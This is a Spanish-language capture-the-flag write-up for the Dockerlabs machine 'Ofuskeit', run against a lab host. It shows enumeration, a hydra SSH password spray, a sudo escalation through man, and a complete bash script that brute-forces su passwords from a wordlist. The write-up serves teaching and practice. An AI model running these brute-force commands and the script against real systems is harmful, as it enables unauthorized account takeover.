# 🖥️ Write-Up: [OFUSKEIT](https://dockerlabs.es)

## 📌 Información General
    - Nombre de la máquina: Ofuskeit
    - Plataforma: Dockerlabs
    - Dificultad: Medio
    - Creador: El pingüino de Mario
    - OS: Linux
---

## 🔍 Enumeración

La máquina Ofuskeit posee la ip **172.17.0.2**.

### Descubrimiento de Puertos

Vamos a comenzar enumerando los puertos abiertos de la máquina, para ello utilizaremos la herramienta de **nmap**.



Vemos que tiene abiertos los puertos 22, 80 y 3000, así que vamos a averiguar que servicios y versiones se ejecutan en estos puertos mediante el uso de **nmap**.



- El puerto 22 ejecuta un servicio de OpenSSH, pero no disponemos de credenciales y esta versión del servicio no es vulnerable.

- El puerto 80 ejecuta un servicio web con Apache.

- El puerto 3000 ejecuta un servicio web de Express js.

### Puerto 80

Si accedemos con el navegador a la ip de la máquina, vemos la web de una empresa de mantenimiento informático.


Vamos a buscar subdirectorios empleando la herramienta **gobuster**.



## 🔥 Explotación

Nos centramos en los subdirectorios de **/api.js** y **/script.js**.

En **script.js** encontramos código ofuscado de javascript. Tras varios intentos de desofuscarlo utilizando diferentes webs, no conseguimos obtener un buen resultado.



En **api.js** vemos el código fuente del servicio de Express js que se ejecuta en el puerto 3000. En él se valida el token de la petición al endpoint y en caso de que este sea válido se devuelve uan contraseña. Pero claro, nosotros podemos ver la contraseña, **chocolate123**, sin necesidad de enviar la petición.



Con esta contraseña vamos a ejecutar un ataque de fuerza bruta sobre el servicio de OpenSSH del puerto 22, como lista de usuarios vamos a usar **/SecLists/Usernames/xato-net-10-million-usernames.txt** que llamaremos **usernames** para simplificar.

```bash
hydra -L usernames -p chocolate123 ssh://172.17.0.2
```



## 🔑 Acceso SSH

Con las credenciales **admin:chocolate123** nos conectamos por ssh

```bash
ssh admin@172.17.0.2
```

## 🧗 Escalada de Privilegios

### Balulito

Si revisamos sus permisos sudoers con `sudo -l`, vemos que podemos ejecutar como el usuario balulito **man**



Revisamos https://gtfobins.github.io/gtfobins/man/#sudo para ver como subir privilegios con **man**.




Y nos convertimos en el usuario **balulito**.



Al intenter ver los permisos **sudoers** nos pide contraseña. Revisando el sistema encontramos en el archivo **/var/www/html/.git** una posible contraseña **'this is top secret'**, la cual no funciona.

Por lo tanto, vamos a utilizar un script en bash para aplicar fuerza bruta y obtener la contraseña de balulito, lo llamaremos **force.sh**

```bash
#!/bin/bash

# Colour
greenColour="\e[0;32m\033[1m"
redColour="\e[0;31m\033[1m"
endColour="\033[0m\e[0m"

ctrl_c(){
    echo -e "\n${redColour}[!] Aborting...${endColour}\n"
    tput cnorm && exit 1
}

# Ctrl+c
trap ctrl_c INT

if [ "$#" -ne "2" ]; then
	echo "Insert an user and a password's list"
	exit 1
fi

user="$1"
dicc="$2"

tput civis
while read passw ; do

    echo "Checking $passw"
    timeout 0.2 echo $passw | su $user -c 'echo "Hello"' &>/dev/null 

    if [ $? -eq 0 ]; then
        echo -e "\nUser--> ${greenColour}$user${endColour} Password--> ${greenColour}$passw${endColour}\n"
        tput cnorm
        exit 0
    fi

done < $dicc

tput cnorm
```
Nos pasamos mediante scp, como el usuario **admin**, este script y una versión reducida del rockyou, la cual contiene las primeras 5000 contraseñas que llamamos minirock.

```bash
scp force.sh admin@172.17.0.2:/home/admin/force.sh
scp minirock admin@172.17.0.2:/home/admin/minirock
```

Ahora como el script pertenece al usuario **admin** no lo podemos ejecutar como **balulito**, por lo que nos volvemos a conectar por ssh como **admin** y lo ejecutamos.

```bash
./force.sh balulito minirock
```

Y encontramos la contraseña **password1**

Con ella comprobamos los permisos sudoers del usuario **balulito** pero no posee ninguno.

### Root

Comprobamos si el usuario **root** reutiliza alguna de las contraseñas que tenemos y efectivamente, su contraseña es **chocolate123**.

Así que usamos las credenciales **root:chocolate123** y ya somos root.




